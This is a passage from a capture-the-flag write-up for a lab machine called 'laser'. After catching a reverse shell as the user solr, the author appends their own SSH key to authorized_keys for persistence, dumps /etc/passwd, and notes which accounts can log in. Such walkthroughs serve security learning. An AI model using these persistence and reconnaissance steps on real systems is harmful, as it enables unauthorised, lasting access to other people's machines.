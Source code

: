I got a connection from the machine on my waiting nc listener!  I quickly upgraded my shell and checked what context I was logged in as.  I was a user named `solr`.  

```text
solr@laser:~$ echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNjkkEoBIEUE1qbriniZITFVwyL5zjbjJopB07xl9UAgAjbkTEx/IfL5xvd6cDNUHmW5KEkXTiNJm3sLBFfloVY=' >> .ssh/authorized_keys
```

Next, I put my public key in the `solr` user's `.ssh` folder so I could log in with a real shell.

```text
solr@laser:/tmp/cypher/.ssh$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
printer:x:997:997::/home/printer:/bin/false
mosquitto:x:112:118::/var/lib/mosquitto:/usr/sbin/nologin
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
solr:x:114:120::/var/solr:/bin/bash
```

I noticed in `/etc/passwd` that there were only two users who could log in, `solr` and `root`.

### User.txt
